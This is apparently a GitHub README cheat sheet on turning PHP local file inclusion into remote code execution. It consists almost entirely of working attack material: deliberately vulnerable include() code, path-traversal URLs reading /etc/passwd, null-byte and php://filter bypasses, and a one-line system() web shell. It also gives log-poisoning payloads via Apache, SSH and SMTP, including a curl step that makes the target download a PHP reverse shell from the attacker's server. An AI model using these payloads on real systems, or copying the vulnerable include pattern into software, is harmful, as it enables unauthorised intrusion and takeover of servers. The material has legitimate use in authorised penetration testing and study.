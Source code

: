 # LFI---RCE-Cheat-Sheet
Transition form local file inclusion attacks to remote code exection

# Vulnerable PHP Code (LFI) 1

```
<?php
$file = $_GET['file'];

 include('directory/' . $file)

?>

Example URL: http//10.10.10.10/index.php?file=../../../../../../../etc/passwd
    
```

# Vulnerable PHP Code (LFI) 2

```
<?php
   $file = $_GET['file'];
   if(isset($file))
   {
       include("$file");
   }
   else
   {
       include("index.php");
   }
   ?>


Example URL: http//10.10.10.10/index.php?file=../../../../../../../etc/passwd
    
```

# Bypassing PHP via NULL Byte

```
http://example.com/index.php?page=../../../etc/passwd%00 // Only applies to PHP 5.3.4 and below
    
```

# Bypassing PHP via WRAPPERS

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
    
```

# PHP RCE

```
<?php system($_GET['c']); ?>

```

# LFI to RCE via Apache Log File Poisoning (PHP)

```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log // Must have the ability to read the log file 

Payload: curl "http://192.168.8.108/" -H "User-Agent: <?php system(\$_GET['cmd']); ?>" // Replace IP with your target 
Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log&cmd=id

OR
python -m SimpleHTTPServer 9000 // You can use any port
Payload: curl "http://<remote_ip>/" -H "User-Agent: <?php file_put_contents('shell.php',file_get_contents('http://<local_ip>:9000/shell-php-rev.php')) ?>" // This will download the PHP reverse shell from your web server onto the target

// file_put_contents('shell.php') = What it will be saved locally on the target
// file_get_contents('http://<local_ip>:9000/shell-php-rev.php') = Where is the shell on YOUR pc and WHAT is it called

Execute PHP Reverse Shell: http//10.10.10.10/shell.php
```

# LFI to RCE via SSH Log File Poisoning (PHP)

```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log // Must have the ability to read the log file
Payload: ssh <?php system($_GET['cmd']);?>@<target_ip> // Replace with the target IP

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log&cmd=id

```

# LFI to RCE via SMTP Log File Poisoning (PHP)

```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log // Must have the ability to read the log file

telnet <target_ip> 25 // Replace with the target IP
MAIL FROM:<toor@gmail.com>
RCPT TO:<?php system($_GET['c']); ?>

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log&c=id


```
